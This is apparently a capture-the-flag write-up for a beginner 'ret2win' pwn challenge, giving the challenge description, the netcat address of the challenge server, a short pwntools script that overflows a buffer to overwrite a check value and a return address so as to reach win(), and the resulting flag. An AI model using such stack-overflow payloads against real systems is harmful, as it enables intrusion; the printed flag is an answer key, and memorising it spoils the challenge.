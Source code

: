 # ret2win

> Points: 75

> Category: pwn

## Description

Here comes your monthly dose of one easy pwn. Can you reach the `win()` function?

## Attachments

https://imaginary.ml/r/C2B3-ret2win

`nc stephencurry.ctfchallenge.ga 5000`

## Solution

```py
from pwn import *

p = remote('stephencurry.ctfchallenge.ga', 5000)

print(p.recv())
p.sendline(b"A" * 12 + p64(0x1337c0d3))
print(p.recv())

p.sendline(b"A"*36 + p64(0x4011b6))
print(p.recv())
```

### Flag

> ictf{mak1ng_r@nd0m_flags_15_n0t_fun}
